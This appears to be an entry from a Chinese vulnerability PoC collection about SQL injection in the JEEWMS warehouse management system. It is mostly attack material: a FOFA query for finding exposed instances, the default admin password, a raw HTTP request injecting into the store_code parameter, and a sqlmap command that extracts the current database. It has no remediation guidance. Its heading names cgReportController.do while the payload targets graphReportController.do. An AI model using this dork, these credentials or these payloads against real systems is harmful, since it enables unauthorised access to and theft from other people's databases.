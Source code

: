 # JEEWMS系统cgReportController.do存在SQL注入漏洞

JEEWMS系统cgReportController.do存在SQL注入漏洞

## fofa

```javascript
body="plug-in/lhgDialog/lhgdialog.min.js?skin=metro"
```

## poc

默认密码 admin/llg123

```
GET /jeewms/graphReportController.do?datagridGraph&configId=CWSYL&store_code=1' HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
```

```javascript
python sqlmap.py -u "http://localhost:8083/jeewms/graphReportController.do?datagridGraph&configId=CWSYL&store_code=1" --cookie="JSESSIONID=B0A3B7BC426F86462B08A69CA6F88FF9; JEECGINDEXSTYLE=ace; ZINDEXNUMBER=1990; Hm_lvt_a4980171086658b20eb2d9b523ae1b7b=1713256699,1713260101" -p store_code --current-db
```

![输入图片说明](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202502211400590.png)

## 漏洞来源

- [JEEWMS-graphReportController.do？# store_comde 中存在 SQL 注入漏洞 ·问题 #IBFK93 ·JeeWMS/JeeWMS - Gitee.com](https://gitee.com/erzhongxmu/JEEWMS/issues/IBFK93)

